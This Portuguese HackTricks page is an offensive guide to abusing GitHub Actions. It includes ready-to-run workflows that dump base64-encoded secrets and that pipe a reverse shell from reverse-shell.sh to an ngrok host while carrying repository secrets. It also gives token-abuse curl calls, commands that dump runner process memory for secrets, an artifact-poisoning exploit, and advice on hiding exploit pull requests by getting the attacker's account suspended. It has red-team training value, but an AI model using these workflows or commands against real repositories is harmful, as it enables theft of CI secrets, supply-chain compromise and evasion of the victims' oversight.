 # Abusando do Github Actions

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

Nesta página você encontrará:

* Um **resumo de todos os impactos** de um atacante conseguindo acessar uma Github Action
* Diferentes maneiras de **obter acesso a uma action**:
* Tendo **permissões** para criar a action
* Abusando de gatilhos relacionados a **pull request**
* Abusando de **outras técnicas de acesso externo**
* **Pivoteando** de um repositório já comprometido
* Finalmente, uma seção sobre **técnicas de pós-exploração para abusar de uma action por dentro** (causando os impactos mencionados)

## Resumo dos Impactos

Para uma introdução sobre [**Github Actions, consulte as informações básicas**](../basic-github-information.md#github-actions).

Caso você consiga **executar Github actions/arbitrariamente injetar código** em um **repositório**, você poderia:

* **Roubar** os **segredos** desse repositório/organização.
* Se você só pode injetar, pode roubar o que já está presente no workflow.
* Abusar dos **privilégios do repositório** para acessar outras plataformas como AWS e GCP.
* **Executar código em workers personalizados** (se workers personalizados forem usados) e tentar pivotar a partir daí.
* **Sobrescrever** o **código** do repositório.
* Isso depende dos privilégios do `GITHUB_TOKEN` (se houver).
* **Comprometer** **implantações** e outros **artefatos**.
* Se o código estiver implantando ou armazenando algo, você poderia modificar isso e obter algum acesso adicional.

## GITHUB\_TOKEN

Este "**segredo**" (vindo de `${{ secrets.GITHUB_TOKEN }}` e `${{ github.token }}`) é fornecido quando o administrador habilita esta opção:

<figure><img src="../../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

Este token é o mesmo que uma **Aplicação Github usará**, então ele pode acessar os mesmos endpoints: [https://docs.github.com/en/rest/overview/endpoints-available-for-github-apps](https://docs.github.com/en/rest/overview/endpoints-available-for-github-apps)

{% hint style="warning" %}
O Github deve lançar um [**fluxo**](https://github.com/github/roadmap/issues/74) que **permite acesso entre repositórios** dentro do GitHub, para que um repositório possa acessar outros repositórios internos usando o `GITHUB_TOKEN`.
{% endhint %}

Você pode ver as possíveis **permissões** deste token em: [https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github\_token](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github\_token)

Note que o token **expira após a conclusão do trabalho**.\
Estes tokens parecem com isso: `ghs_veaxARUji7EXszBMbhkr4Nz2dYz0sqkeiur7`

Algumas coisas interessantes que você pode fazer com este token:

{% tabs %}
{% tab title="Merge PR" %}
```bash
# Merge PR
curl -X PUT \
https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/merge \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
-d '{"commit_title":"commit_title"}'
```
{% endtab %}

{% tab title="Aprovar PR" %}
```bash
# Approve a PR
curl -X POST \
https://api.github.com/repos/<org_name>/<repo_name>/pulls/<pr_number>/reviews \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
-d '{"event":"APPROVE"}'
```
{% endtab %}

{% tab title="Criar PR" %}
```bash
# Create a PR
curl -X POST \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
https://api.github.com/repos/<org_name>/<repo_name>/pulls \
-d '{"head":"<branch_name>","base":"master", "title":"title"}'
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Observe que em várias ocasiões você poderá encontrar **tokens de usuário do github dentro dos ambientes do Github Actions ou nos segredos**. Esses tokens podem conceder a você mais privilégios sobre o repositório e a organização.
{% endhint %}

<details>

<summary>Listar segredos na saída do Github Action</summary>
```yaml
name: list_env
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
List_env:
runs-on: ubuntu-latest
steps:
- name: List Env
# Need to base64 encode or github will change the secret value for "***"
run: sh -c 'env | grep "secret_" | base64 -w0'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
<details>

<summary>Obtenha shell reverso com segredos</summary>
```yaml
name: revshell
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
create_pull_request:
runs-on: ubuntu-latest
steps:
- name: Get Rev Shell
run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
</details>

É possível verificar as permissões concedidas a um Token do Github em repositórios de outros usuários **verificando os logs** das ações:

<figure><img src="../../../.gitbook/assets/image (97).png" alt="" width="269"><figcaption></figcaption></figure>

## Execução Permitida

{% hint style="info" %}
Esta seria a maneira mais fácil de comprometer as ações do Github, pois este caso supõe que você tenha acesso para **criar um novo repositório na organização**, ou tenha **privilégios de escrita sobre um repositório**.

Se você está neste cenário, você pode simplesmente verificar as [técnicas de Pós-Exploração](./#post-exploitation-techniques-from-inside-an-action).
{% endhint %}

### Execução a partir da Criação de Repositório

Caso membros de uma organização possam **criar novos repositórios** e você possa executar ações do Github, você pode **criar um novo repositório e roubar os segredos definidos no nível da organização**.

### Execução a partir de um Novo Ramo

Se você pode **criar um novo ramo em um repositório que já contém uma Ação do Github** configurada, você pode **modificar** a ação, **fazer upload** do conteúdo e então **executar essa ação a partir do novo ramo**. Dessa forma, você pode **exfiltrar segredos no nível do repositório e da organização** (mas você precisa saber como eles são chamados).

Você pode fazer a ação modificada executável **manualmente**, quando um **PR é criado** ou quando **algum código é enviado** (dependendo de quão discreto você quer ser):
```yaml
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- master
push: # Run it when a push is made to a branch
branches:
- current_branch_name

# Use '**' instead of a branh name to trigger the action in all the cranches
```
***

## Execução Forkada

{% hint style="info" %}
Existem diferentes gatilhos que podem permitir a um atacante **executar uma Ação do Github de outro repositório**. Se essas ações acionáveis forem mal configuradas, um atacante poderá comprometê-las.
{% endhint %}

### `pull_request`

O gatilho de workflow **`pull_request`** executará o workflow toda vez que um pull request for recebido com algumas exceções: por padrão, se for a **primeira vez** que você está **colaborando**, algum **mantenedor** precisará **aprovar** a **execução** do workflow:

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Como a **limitação padrão** é para colaboradores de **primeira viagem**, você poderia contribuir **corrigindo um bug/erro de digitação válido** e depois enviar **outros PRs para abusar dos seus novos privilégios de `pull_request`**.

**Eu testei isso e não funciona**: ~~Outra opção seria criar uma conta com o nome de alguém que contribuiu para o projeto e deletou sua conta.~~
{% endhint %}

Além disso, por padrão **previne permissões de escrita** e **acesso a segredos** no repositório alvo como mencionado nos [**documentos**](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflows-in-forked-repositories):

> Com exceção do `GITHUB_TOKEN`, **segredos não são passados para o executor** quando um workflow é acionado a partir de um repositório **forkado**. O **`GITHUB_TOKEN` tem permissões somente de leitura** em pull requests **de repositórios forkados**.

Um atacante poderia modificar a definição da Ação do Github para executar coisas arbitrárias e anexar ações arbitrárias. No entanto, ele não será capaz de roubar segredos ou sobrescrever o repositório devido às limitações mencionadas.

{% hint style="danger" %}
**Sim, se o atacante alterar no PR a ação do github que será acionada, sua Ação do Github será a usada e não a do repositório de origem!**
{% endhint %}

Como o atacante também controla o código sendo executado, mesmo que não haja segredos ou permissões de escrita no `GITHUB_TOKEN`, um atacante poderia, por exemplo, **fazer upload de artefatos maliciosos**.

### **`pull_request_target`**

O gatilho de workflow **`pull_request_target`** tem **permissão de escrita** no repositório alvo e **acesso a segredos** (e não pede permissão).

Note que o gatilho de workflow **`pull_request_target`** **executa no contexto base** e não no fornecido pelo PR (para **não executar código não confiável**). Para mais informações sobre `pull_request_target` [**consulte os documentos**](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#pull\_request\_target).\
Além disso, para mais informações sobre este uso específico perigoso, confira este [**post do blog do github**](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/).

Pode parecer que, porque o **workflow executado** é o definido na **base** e **não no PR**, é **seguro** usar **`pull_request_target`**, mas há **alguns casos em que não é**.

E este terá **acesso a segredos**.

### `workflow_run`

O gatilho [**workflow\_run**](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow\_run) permite executar um workflow a partir de outro quando está `completed`, `requested` ou `in_progress`.

Neste exemplo, um workflow é configurado para ser executado após a conclusão do workflow separado "Run Tests":
```yaml
on:
workflow_run:
workflows: [Run Tests]
types:
- completed
```
Além disso, de acordo com a documentação: O workflow iniciado pelo evento `workflow_run` pode **acessar segredos e tokens de escrita, mesmo que o workflow anterior não pudesse**.

Esse tipo de workflow pode ser atacado se estiver **dependendo** de um **workflow** que pode ser **acionado** por um usuário externo via **`pull_request`** ou **`pull_request_target`**. Alguns exemplos vulneráveis podem ser [**encontrados neste blog**](https://www.legitsecurity.com/blog/github-privilege-escalation-vulnerability)**.** O primeiro consiste no workflow acionado por **`workflow_run`** baixando o código do atacante: `${{ github.event.pull_request.head.sha }}`\
O segundo consiste em **passar** um **artefato** do código **não confiável** para o workflow **`workflow_run`** e usar o conteúdo deste artefato de uma maneira que o torne **vulnerável a RCE**.

### `workflow_call`

TODO

TODO: Verificar se, quando executado a partir de um pull_request, o código usado/baixado é o do repositório original ou do PR bifurcado

## Abusando da Execução em Forks

Mencionamos todas as maneiras pelas quais um atacante externo poderia fazer um workflow do github ser executado, agora vamos ver como essas execuções, se mal configuradas, podem ser abusadas:

### Execução de checkout não confiável

No caso de **`pull_request`,** o workflow será executado no **contexto do PR** (então ele executará o código **malicioso do PR**), mas alguém precisa **autorizá-lo primeiro** e ele será executado com algumas [limitações](./#pull_request).

No caso de um workflow usando **`pull_request_target` ou `workflow_run`** que depende de um workflow que pode ser acionado a partir de **`pull_request_target` ou `pull_request`**, o código do repositório original será executado, então o **atacante não pode controlar o código executado**.

{% hint style="danger" %}
No entanto, se a **ação** tiver um **checkout explícito do PR** que irá **obter o código do PR** (e não da base), ele usará o código controlado pelo atacante. Por exemplo (verifique a linha 12 onde o código do PR é baixado):
{% endhint %}

<pre class="language-yaml"><code class="lang-yaml"># INSEGURO. Fornecido apenas como exemplo.
on:
pull_request_target

jobs:
build:
name: Build and test
runs-on: ubuntu-latest
steps:
<strong>    - uses: actions/checkout@v2
</strong><strong>      with:
</strong><strong>        ref: ${{ github.event.pull_request.head.sha }}
</strong>
- uses: actions/setup-node@v1
- run: |
npm install
npm build

- uses: completely/fakeaction@v2
with:
arg1: ${{ secrets.supersecret }}

- uses: fakerepo/comment-on-pr@v1
with:
message: |
Thank you!
</code></pre>

O código potencialmente **não confiável está sendo executado durante `npm install` ou `npm build`** já que os scripts de build e pacotes referenciados são controlados pelo autor do PR.

{% hint style="warning" %}
Um dork do github para procurar ações vulneráveis é: `event.pull_request pull_request_target extension:yml` no entanto, existem diferentes maneiras de configurar os jobs para serem executados de forma segura, mesmo que a ação esteja configurada de forma insegura (como usar condicionais sobre quem é o ator que gera o PR).
{% endhint %}

### Injeções de Script em Contexto <a href="#understanding-the-risk-of-script-injections" id="understanding-the-risk-of-script-injections"></a>

Observe que existem certos [**contextos do github**](https://docs.github.com/en/actions/reference/context-and-expression-syntax-for-github-actions#github-context) cujos valores são **controlados** pelo **usuário** que cria o PR. Se a ação do github estiver usando esses **dados para executar algo**, isso pode levar a **execução arbitrária de código:**

{% content-ref url="gh-actions-context-script-injections.md" %}
[gh-actions-context-script-injections.md](gh-actions-context-script-injections.md)
{% endcontent-ref %}

### **Injeção de Script GITHUB_ENV** <a href="#what-is-usdgithub_env" id="what-is-usdgithub_env"></a>

De acordo com a documentação: Você pode tornar uma **variável de ambiente disponível para quaisquer etapas subsequentes** em um job de workflow definindo ou atualizando a variável de ambiente e escrevendo isso no arquivo de ambiente **`GITHUB_ENV`**.

Se um atacante pudesse **injetar qualquer valor** dentro desta variável **env**, ele poderia injetar variáveis de ambiente que poderiam executar código em etapas seguintes, como **LD_PRELOAD** ou **NODE_OPTIONS**.

Por exemplo ([**este**](https://www.legitsecurity.com/blog/github-privilege-escalation-vulnerability-0) e [**este**](https://www.legitsecurity.com/blog/-how-we-found-another-github-action-environment-injection-vulnerability-in-a-google-project)), imagine um workflow que confia em um artefato carregado para armazenar seu conteúdo dentro da variável de ambiente **`GITHUB_ENV`**. Um atacante poderia carregar algo assim para comprometê-lo:

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Ações de Terceiros Vulneráveis no Github

#### [dawidd6/action-download-artifact](https://github.com/dawidd6/action-download-artifact)

Como mencionado em [**este post do blog**](https://www.legitsecurity.com/blog/github-actions-that-open-the-door-to-cicd-pipeline-attacks), esta Ação do Github permite acessar artefatos de diferentes workflows e até repositórios.

O problema é que se o parâmetro **`path`** não for definido, o artefato é extraído no diretório atual e pode sobrescrever arquivos que podem ser usados ou até executados posteriormente no workflow. Portanto, se o Artefato for vulnerável, um atacante poderia abusar disso para comprometer outros workflows que confiam no Artefato.

Exemplo de workflow vulnerável:
```yaml
on:
workflow_run:
workflows: ["some workflow"]
types:
- completed

jobs:
success:
runs-on: ubuntu-latest
steps:
- uses: actions/checkout@v2
- name: download artifact
uses: dawidd6/action-download-artifact
with:
workflow: ${{ github.event.workflow_run.workflow_id }}
name: artifact
- run: python ./script.py
with:
name: artifact
path: ./script.py
```
Isso poderia ser atacado com este fluxo de trabalho:
```yaml
name: "some workflow"
on: pull_request

jobs:
upload:
runs-on: ubuntu-latest
steps:
- run: echo "print('exploited')" > ./script.py
- uses actions/upload-artifact@v2
with:
name: artifact
path: ./script.py
```
***

## Outro Acesso Externo

### Sequestro de Repositório de Namespace Excluído

Se uma conta alterar seu nome, outro usuário poderá registrar uma conta com esse nome após algum tempo. Se um repositório tinha **menos de 100 estrelas antes da mudança de nome**, o Github permitirá que o novo usuário registrado com o mesmo nome crie um **repositório com o mesmo nome** que o excluído.

{% hint style="danger" %}
Portanto, se uma ação estiver usando um repositório de uma conta inexistente, ainda é possível que um atacante crie essa conta e comprometa a ação.
{% endhint %}

Se outros repositórios estiverem usando **dependências desses repositórios do usuário**, um atacante poderá sequestrá-los. Aqui você tem uma explicação mais completa: [https://blog.nietaanraken.nl/posts/gitub-popular-repository-namespace-retirement-bypass/](https://blog.nietaanraken.nl/posts/gitub-popular-repository-namespace-retirement-bypass/)

***

## Pivoteamento de Repositório

{% hint style="info" %}
Nesta seção, falaremos sobre técnicas que permitiriam **pivoteamento de um repositório para outro** supondo que temos algum tipo de acesso no primeiro (verifique a seção anterior).
{% endhint %}

### Envenenamento de Cache

Um cache é mantido entre **execuções de workflow na mesma branch**. O que significa que se um atacante **comprometer** um **pacote** que é armazenado no cache e **baixado** e executado por um workflow **mais privilegiado**, ele também poderá **comprometer** esse workflow.

{% content-ref url="gh-actions-cache-poisoning.md" %}
[gh-actions-cache-poisoning.md](gh-actions-cache-poisoning.md)
{% endcontent-ref %}

### Envenenamento de Artefato

Workflows podem usar **artefatos de outros workflows e até repositórios**, se um atacante conseguir **comprometer** a Github Action que **faz upload de um artefato** que é posteriormente usado por outro workflow, ele poderá **comprometer os outros workflows**:

{% content-ref url="gh-actions-artifact-poisoning.md" %}
[gh-actions-artifact-poisoning.md](gh-actions-artifact-poisoning.md)
{% endcontent-ref %}

***

## Pós-Exploração de uma Ação

### Acessando AWS e GCP via OIDC

Confira as seguintes páginas:

{% content-ref url="../../../pentesting-cloud/aws-security/aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../../../pentesting-cloud/aws-security/aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% content-ref url="../../../pentesting-cloud/gcp-security/gcp-basic-information/gcp-federation-abuse.md" %}
[gcp-federation-abuse.md](../../../pentesting-cloud/gcp-security/gcp-basic-information/gcp-federation-abuse.md)
{% endcontent-ref %}

### Acessando segredos <a href="#accessing-secrets" id="accessing-secrets"></a>

Se você está injetando conteúdo em um script, é interessante saber como você pode acessar segredos:

* Se o segredo ou token estiver definido como uma **variável de ambiente**, ele pode ser acessado diretamente através do ambiente usando **`printenv`**.

<details>

<summary>Listar segredos na saída da Github Action</summary>
```yaml
name: list_env
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
List_env:
runs-on: ubuntu-latest
steps:
- name: List Env
# Need to base64 encode or github will change the secret value for "***"
run: sh -c 'env | grep "secret_" | base64 -w0'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}

secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
<details>

<summary>Obtenha shell reverso com segredos</summary>
```yaml
name: revshell
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
create_pull_request:
runs-on: ubuntu-latest
steps:
- name: Get Rev Shell
run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
</details>

* Se o segredo é usado **diretamente em uma expressão**, o script shell gerado é armazenado **em disco** e é acessível.
* ```bash
cat /home/runner/work/_temp/*
```
* Para ações JavaScript, os segredos são enviados através de variáveis de ambiente
* ```bash
ps axe | grep node
```
*   Para uma **ação personalizada**, o risco pode variar dependendo de como um programa está usando o segredo que obteve do **argumento**:

```yaml
uses: fakeaction/publish@v3
with:
key: ${{ secrets.PUBLISH_KEY }}
```

### Abusando de executores auto-hospedados

A maneira de descobrir quais **Github Actions estão sendo executadas em infraestrutura não-Github** é procurar por **`runs-on: self-hosted`** no yaml de configuração do Github Action.

Executores **auto-hospedados** podem ter acesso a informações **extremamente sensíveis**, a outros **sistemas de rede** (pontos finais vulneráveis na rede? serviço de metadados?) ou, mesmo que esteja isolado e destruído, **mais de uma ação pode ser executada ao mesmo tempo** e a maliciosa poderia **roubar os segredos** da outra.

Em executores auto-hospedados também é possível obter os **segredos do processo **_**Runner.Listener**_** que conterá todos os segredos dos fluxos de trabalho em qualquer etapa, despejando sua memória:

{% code overflow="wrap" %}
```bash
sudo apt-get install -y gdb
sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{ print $1 }')"
```
{% endcode %}

Confira [**este post para mais informações**](https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/).

### Registro de Imagens Docker do Github

É possível criar ações do Github que **constroem e armazenam uma imagem Docker dentro do Github**.\
Um exemplo pode ser encontrado no seguinte expansível:

<details>

<summary>Github Action Build &#x26; Push Docker Image</summary>
```yaml
[...]

- name: Set up Docker Buildx
uses: docker/setup-buildx-action@v1

- name: Login to GitHub Container Registry
uses: docker/login-action@v1
with:
registry: ghcr.io
username: ${{ github.repository_owner }}
password: ${{ secrets.ACTIONS_TOKEN }}

- name: Add Github Token to Dockerfile to be able to download code
run: |
sed -i -e 's/TOKEN=##VALUE##/TOKEN=${{ secrets.ACTIONS_TOKEN }}/g' Dockerfile

- name: Build and push
uses: docker/build-push-action@v2
with:
context: .
push: true
tags: |
ghcr.io/${{ github.repository_owner }}/${{ github.event.repository.name }}:latest
ghcr.io/${{ github.repository_owner }}/${{ github.event.repository.name }}:${{ env.GITHUB_NEWXREF }}-${{ github.sha }}

[...]
```
</details>

Como você pôde ver no código anterior, o registro do Github está hospedado em **`ghcr.io`**.

Um usuário com permissões de leitura sobre o repositório poderá então baixar a Imagem Docker usando um token de acesso pessoal:
```bash
echo $gh_token | docker login ghcr.io -u <username> --password-stdin
docker pull ghcr.io/<org-name>/<repo_name>:<tag>
```
Então, o usuário poderia procurar por **segredos vazados nas camadas da imagem Docker:**

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics" %}

### Informações sensíveis nos logs do Github Actions

Mesmo que o **Github** tente **detectar valores secretos** nos logs das actions e **evitar mostrá-los**, **outros dados sensíveis** que podem ter sido gerados na execução da action não serão ocultados. Por exemplo, um JWT assinado com um valor secreto não será ocultado, a menos que seja [configurado especificamente](https://github.com/actions/toolkit/tree/main/packages/core#setting-a-secret).

## Cobrindo seus Rastros

(Técnica de [**aqui**](https://divyanshu-mehta.gitbook.io/researchs/hijacking-cloud-ci-cd-systems-for-fun-and-profit)) Primeiramente, qualquer PR criado é claramente visível ao público no Github e para a conta do GitHub alvo. No Github, por padrão, **não podemos deletar um PR da internet**, mas há um truque. Para contas do Github que são **suspensas** pelo Github, todos os seus **PRs são automaticamente deletados** e removidos da internet. Então, para esconder sua atividade, você precisa fazer com que sua **conta do GitHub seja suspensa ou sinalizada**. Isso **ocultará todas as suas atividades** no GitHub da internet (basicamente removerá todos os seus PRs de exploração)

Uma organização no GitHub é muito proativa em reportar contas para o GitHub. Tudo o que você precisa fazer é compartilhar "algumas coisas" em Issue e eles garantirão que sua conta seja suspensa em 12 horas :p e lá você tem, tornou seu exploit invisível no github.

{% hint style="warning" %}
A única maneira de uma organização descobrir que foi alvo é verificar os logs do GitHub a partir do SIEM, já que pelo UI do GitHub o PR seria removido.
{% endhint %}

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
